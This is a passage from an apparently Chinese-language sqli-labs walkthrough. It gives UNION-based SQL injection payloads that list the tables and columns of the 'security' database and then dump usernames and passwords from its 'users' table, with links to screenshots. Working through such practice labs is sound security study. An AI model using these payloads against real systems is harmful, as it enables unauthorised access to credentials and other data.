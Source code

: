 得到表security



**爆表**

```sql
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```

![image-20201106202414193](sqli-labs1-20/image-20201106202414193-1604667081398.png)



**爆列**

```sql
?id=-1 union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```

![image-20201106202736797](sqli-labs1-20/image-20201106202736797-1604667081398.png)



**爆数据**

```sql
?id=-1 union select 1,group_concat(id,username,password) ,3 from users--+
?id=-1 union select 1,username,password from users where id=3--+
```

![image-20201106202955659](sqli-labs1-20/image-20201106202955659-1604667081398.png)
